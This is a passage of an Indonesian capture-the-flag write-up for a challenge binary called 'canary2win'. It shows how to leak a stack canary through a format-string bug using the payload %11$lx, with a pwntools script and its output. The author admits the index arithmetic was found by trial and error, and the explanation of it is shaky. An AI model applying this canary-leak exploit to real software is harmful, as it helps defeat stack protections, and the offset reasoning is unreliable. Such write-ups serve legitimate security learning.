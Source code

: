 ```
[*] Stopped process './chall' (pid 42655)
```
Nah sip dah kena error. Berarti kita perlu padding sebanyak 40 bytes sebelum bertemu stack canary.

Sekarang setelah mendapatkan paddingnya, bagaimana kita menentukan stack canary nya?

Jadi gini, ```%lx``` ngebaca isi elemen di stack dari elemen di alamat yang berada di ```$rsp+0```. Selain itu ingat juga indeks di formatting ```printf``` dimulai dari **1**. Hal ini berarti stack canary berada di posisi:
```
((40-0)/4) +1 = 11
```
Bentar...ini kan 64-bit, kenapa dibagi 4?

Jadi entah kenapa pas kucoba-coba, jadi formatter ```printf``` cara kerjanya ngefetch next element di stack (64-bit), kalau dia formatnya ```%x```, cuma 32-bit terbawah yang kecetak, kalau formatnya ```%lx```, semuanya kecetak.

Terus kenapa dibagi 4?

Entah, kucoba-coba meski 64-bit tetep offset indeksnya 4. Jadi ya begitu.

Nah karena kita sudah tahu indeksnya, kita bisa mendapatkan stack canary dengan format berikut:
```
%11$lx
```
Berikut kode yang dimodifikasi:
```
import pwn

#buat local connection
with pwn.process("./chall") as c:

#buat remote connection
# with pwn.remote("34.101.174.85",10002) as c:
   #dapetin stack canary-nya
   #tunggu prompt
   print(c.recvuntil("> "))
   #kirim payload
   c.sendline("%11$lx")
   #lihat responsenya
   canary_stack = c.recvline().strip().decode()
   print(canary_stack)
```
Response dari server dalam bentuk array of binaries, jadi hasilnya perlu di-_decode_ lalu di-_strip_ dari karakter newline (\n).

Mari kita jalankan:
```
[+] Starting local process './chall': pid 49938
XXX/canary2win.py:46: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  print(c.recvuntil("> "))
b'\ncanary2win e youkoso~ input wo joudai >//<\n> '
XXX/canary2win.py:48: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  c.sendline("%11$lx")
d9106ba60e1f6d00
[*] Stopped process './chall' (pid 49938)
```
Nah kita sudah dapat stack canarynya
